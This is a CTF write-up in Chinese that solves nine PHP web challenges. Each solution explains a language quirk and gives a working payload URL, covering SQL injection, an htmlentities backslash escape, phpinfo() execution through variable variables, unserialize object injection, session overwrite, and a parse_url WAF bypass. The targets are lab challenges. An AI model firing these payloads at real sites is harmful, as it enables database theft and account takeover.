 ## Writeup

>PHP is the best language in the world! - Mark Twain

### challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用`\`将原SQL语句中的第二个单引号转义，成功逃逸引号。

payload:`http://foobar/challenge1.php?username=\&password=%20or%201=1%20limit%201%23`

### challenge2:
PHP中花括号的用法：字符串`${foobar}`中的foobar会被当作变量来处理，详情参见: http://php.net/manual/en/language.variables.variable.php

payload:`http://foobar/challenge2.php?str=${${phpinfo()}}`

### challenge3:
利用PHP和MySQL中浮点数精度不同的特性来做，在PHP中`1.0000000000001 != 1`而在MySQL中`1.0000000000001 == 1`

payload: `http://foobar/challenge3.phpid=1.0000000000001`

### challenge4:
foreach那一段代码避免了变量覆盖的发生，却也可能导致释放原有变量，通过通过传参$_CONFIG=anything来释放掉$_CONFIG变量，从而绕过过滤，剩下的就是SQL注入了。

payload: `http://foobar/challenge4.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa`

### challenge5:
PHP弱类型导致的BUG，当`$var`是一个字符串/数组的时候，访问`$var["any string"]`跟访问`$var[intval("any string")]`效果是一样的，所以就有如下思路:
1. 访问`http://foobar/challenge5.php?userInfo=a:2:{s:2:"id";s:1:"8";s:4:"pass";s:12:"MAYBECHANGED";}&newPass=8`将账号jimbo18714的密码修改为8
2. 访问`http://foobar/challenge5.php?userInfo=s:1:"8";&newPass=1`将ID为1的账号密码修改为1

开始对2很迷,不知道为啥修改了id=1的用户的密码,而不是修改了id=8的,最后@yichin大牛指点之后才明白:

```php
if($oldPass == $userInfo['pass']){
    $userInfo['pass'] = $newPass; //这里修改了$userInfo,改成了 1  
    $query = 'UPDATE users SET pass = \''.mres($newPass).'\' WHERE id = \''.mres($userInfo['id']).'\';';
    mysql_query($query);
    echo 'Password Changed.';
}
``` 

### challenge6:
PHP中引用的用法，将`$o->enter`设置为`$o->secret`的引用，这样更改`$o->secret`时`$o->enter`也会随之更改。p.s.乌云知识库上面那个思路完全是在扯淡。

payload:`http://foobar/challenge6.php?pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}`

### challenge7:
`$_REQUEST`变量中如果碰到`$_GET`和`$_POST`重名的字段，`$_POST`的该字段会覆盖掉`$_GET`的该字段，可以借此特性绕过对`$_REQUEST`的数组判断，进而覆盖`$_SESSION`变量

payload: `http://foobar/challenge7.php?_SESSION[logged]=1 (POST: _SESSION=1)`

### challenge8:
PHP反序列化的一个小特性，反序列化时会忽略掉用来表示长度的数字前面的`+`，大概是把`+`当作正号来处理了吧。详情参考:http://www.2cto.com/kf/201309/246310.html

payload:`http://foobar/challenge8.php?data=O:%2B8:"just4fun":1:{s:8:"filename";s:9:"sbztz.php";}`

### challenge9:

漏洞挺明显的,主要是40行`parse_str($_SERVER['QUERY_STRING'])`
导致的变量覆盖漏洞.既然存在变量覆盖漏洞,那就想办法找到在
- `parse_str($_SERVER['QUERY_STRING'])`这句代码之前出现初始化的有用变量
- 或者是在`parse_str($_SERVER['QUERY_STRING'])`之后出现的未初始化变量.

看到第50-52行:
```php
 if($col) {
        $query_parts = $col . " like '%" . $keyword . "%'";
    }
```
如果`$col`为空,会导致`$query_parts`变为未初始化变量,就可以直接覆盖了.
所以 `$query_parts`可控,可以直接导入sql语句造成注入.

但是却有过滤
```php
function nojam_firewall(){
    $INFO = parse_url($_SERVER['REQUEST_URI']);
    parse_str($INFO['query'], $query);
    $filter = ["union", "select", "information_schema", "from"];
    foreach($query as $q){
        foreach($filter as $f){
            if (preg_match("/".$f."/i", $q)){
                nojam_log($INFO);
                die("attack detected!");
            }
        }
    }
}
```
需要利用PHP parse_url()函数的BUG来解题([https://bugs.php.net/bug.php?id=55511](https://bugs.php.net/bug.php?id=55511)),通过`///x.php?key=value`的方式可以使其返回 False，从而达到绕过WAF的目的

最后的payload为:
```
///index.php?search_cols=a|b&keyword=xxxx&operator=and&query_parts=123 union select 1,2,3,flag from flag
```
